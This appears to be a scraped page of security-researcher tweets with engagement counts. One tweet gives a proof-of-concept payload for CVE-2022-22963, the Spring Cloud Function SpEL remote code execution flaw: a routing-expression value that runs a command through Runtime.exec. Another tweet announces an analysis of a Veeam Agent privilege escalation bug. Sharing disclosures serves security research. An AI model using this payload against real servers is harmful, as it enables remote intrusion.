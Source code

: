 <table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# bytehx343
**https://twitter.com/bytehx343/status/1509034539330732033 _at 2022-03-30, 05:07:25_**
<blockquote>
Spring Cloud Function Spel RCE aka CVE-2022-22963 POC.
payload
https://t.co/4Yb3FFRFoC.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("xcalc") https://t.co/1loEZJrIX3
</blockquote>

* http://spring.cloud

<table><tr>
<td><img src="pictures/98ba6c5a4b8822ef670493cda792681cfe43c7c62c0df91dd21e1a7134e47695.jpg" alt="98ba6c5a4b8822ef670493cda792681cfe43c7c62c0df91dd21e1a7134e47695.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>208</code></td>
<td>Favorites: <code>629</code></td>
</tr></table>

---

# SinSinology
**https://twitter.com/SinSinology/status/1508812050407034894 _at 2022-03-29, 14:23:19_**
<blockquote>
🔥Our Technical Analysis for Veeam Agent local privilege escalation has been published: CVE-2022-26503
Thanks to @MDSecLabs https://t.co/eBcAjrcvdL
</blockquote>
